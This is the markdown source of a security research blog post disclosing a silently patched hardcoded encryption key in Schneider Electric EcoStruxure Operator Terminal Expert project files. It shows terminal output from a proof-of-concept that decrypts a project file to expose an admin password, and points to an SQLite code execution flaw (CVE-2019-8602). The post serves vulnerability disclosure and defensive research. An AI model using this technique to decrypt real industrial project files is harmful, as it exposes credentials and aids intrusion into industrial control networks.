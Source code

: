 ```yaml
---
layout: post
title: "Silent Schneider :: Revealing a Hidden Patch in EcoStruxure Operator Terminal Expert"
date: 2020-02-18 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">Last month, [Chris](https://twitter.com/mufinnnnnnn) and I competed at [Pwn2Own Miami 2020](https://www.thezdi.com/blog/2020/1/21/pwn2own-miami-2020-schedule-and-live-results) targeting several ICS applications. One of the applications that we targeted was the Schneider Electric EcoStruxure Operator Terminal Expert. This blog post talks about a silent patch that was introduced before the competition that subsequently killed several bugs in our exploit chain.</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, one of the bugs that was in our chain will be revealed coupled with an exploit that can help network penetration testers and red teams to pivot through a compromised network.*</p>

## Overview

<p class="cn" markdown="1">As [Cim](https://twitter.com/Cim_Stordal) hints out in his [blog post](https://medium.com/cognite/pwn2own-or-not2pwn-part-1-3f152c44563e), he could pack and unpack project files even though encryption was in play. This is because one of the bugs that was silently patched was a hardcoded cryptographic key that was being used to encrypt and decrypt the project file.</p>

## Vulnerable Versions

<p class="cn" markdown="1">Since this was a silent patch, let's be clear about what was vulnerable and what was not:</p> 
<div markdown="1" class="cn">
- `EcoStruxure Operator Terminal Expert V3.1.iso` - SHA1: `386312d68ba5e6a98df24258f2fbcfb2d8c8521b`:

   This version is vulnerable and released 20/12/2019.

- `Installation_File_v3.1_SP1.zip` - SHA1: `229c8a5f9cdb1d63c2f9998d561a50a30e829d7a`:

   This version is *not* vulnerable and released 20/9/2019.
</div>

## Impact

<p class="cn" markdown="1">The project file (.vxdz) was a simple zip compressed file that could be extracted.</p>

```
saturn:~ mr_me$ unzip -d sample sample.vxdz 
Archive:  sample.vxdz
 extracting: sample/Alarm.db         
 extracting: sample/AllDataLogging.dat  
 extracting: sample/contents.inf     
 extracting: sample/Converters.dat   
 extracting: sample/hierarchy.inf    
 extracting: sample/Language.db      
 extracting: sample/logging.dat      
 extracting: sample/Project.dat      
 extracting: sample/Recipe.Binding.dat  
 extracting: sample/Recipe.db        
 extracting: sample/RecipeControls.dat  
 extracting: sample/scripts.inf      
 extracting: sample/Security.db      
 extracting: sample/SystemKeypad.inf  
 extracting: sample/Target.Binding.dat  
 extracting: sample/Target.dat       
 extracting: sample/Validations.dat  
 extracting: sample/Variables.db     
 extracting: sample/Screens/panel1.binding.dat  
 extracting: sample/Screens/panel1.dat  
 extracting: sample/Scripts/panel0.binding.dat  
 extracting: sample/Scripts/panel0.dat  
 extracting: sample/[Content_Types].xml  
saturn:~ mr_me$ file sample/Security.db
sample/Security.db: data
saturn:~ mr_me$ strings sample/Security.db 
]3uU
B[]~
J|)o
JdnAq
ER$_0
pPQ$M
```

<p class="cn" markdown="1">When attempting to determine the file types of the .db files and/or inspect their content, we can quickly see that the files are encrypted and compressed using deflate. Normally this wouldn't be an issue, but the Security.db file can contain sensitive information such as usernames and passwords.</p>

```
saturn:~ mr_me$ ./poc.py 
(+) usage: ./eco.py <projectfile> [options <pack/unpack>]
(+) eg: ./eco.py sample.vxdz unpack
(+) eg: ./eco.py sample.vxdz pack
saturn:~ mr_me$ ./poc.py sample.vxdz unpack
(+) unpacking to sample
(+) unpacking: sample/Validations.dat
(+) unpacking: sample/Screens/panel1.binding.dat
(+) unpacking: sample/Recipe.Binding.dat
(+) unpacking: sample/RecipeControls.dat
(+) unpacking: sample/hierarchy.inf
(+) unpacking: sample/Alarm.db
(+) unpacking: sample/Recipe.db
(+) unpacking: sample/Project.dat
(+) unpacking: sample/Screens/panel1.dat
(+) unpacking: sample/Language.db
(+) unpacking: sample/scripts.inf
(+) unpacking: sample/Target.Binding.dat
(+) unpacking: sample/Target.dat
(+) unpacking: sample/AllDataLogging.dat
(+) unpacking: sample/logging.dat
(+) unpacking: sample/Scripts/panel0.binding.dat
(+) unpacking: sample/Scripts/panel0.dat
(+) unpacking: sample/Converters.dat
(+) unpacking: sample/Security.db
(+) unpacking: sample/SystemKeypad.inf
(+) unpacking: sample/Variables.db
(+) unpacking: sample/contents.inf
(+) unpacking: sample/[Content_Types].xml
(+) unpacked and decrypted: sample.vxdz
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
saturn:~ mr_me$ strings sample/Security.db | grep admin
admins
admin09cfb7e71f097ebfed99e3ca3ba5d8b9e26162e19d03949566df9a12097d3bb2
adminthe master admin userThisIsASecretPassword!^L4G
saturn:~ mr_me$
```

<p class="cn" markdown="1">Using the PoC we developed, it's possible to expose passwords inside of .vdxz files and in the example above, we can see that the password `ThisIsASecretPassword!` was exposed.</p>

<p class="cn" markdown="1">Furthermore, details of SQLite fts3_tokenizer Untrusted Pointer Remote Code Execution Vulnerability aka [CVE-2019-8602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8602) was released in Checkpoint's excellent blog [post](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/).</p>

<p class="cn" markdown="1">Not only was the FTS3 extension enabled in the SQLite binary for EcoStruxure Operator Terminal Expert, but it was also using an outdated version as well: `3.8.0.1`.</p>

```
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
```

<p class="cn" markdown="1">The checkpoint blog post had all the formula to craft a working remote code execution exploit using just CVE-2019-8602.</p>

## Patch

<p class="cn" markdown="1">The patch that Schneider released in SP1 was essentially to encrypt files using a per project password, instead of using a hardcoded encryption key.</p>

{% include image.html
            img="assets/images/silent-schneider-revealing-a-hidden-patch-in-ecostruxure-operator-terminal-expert/patch.png"
            title="A per project password warning"
            caption="A per project password warning"
            style="width:50%;height:50%" %}

## Conclusion

<p class="cn" markdown="1">Whilst no CVE was issued, having knowledge of the hardcoded key may aid in network pivoting as sensitive information can be revealed if .vdxz files are found within a network.</p>

<p class="cn" markdown="1">An advisory and poc exploit can be found [here](/advisories/src-2020-0010/).</p>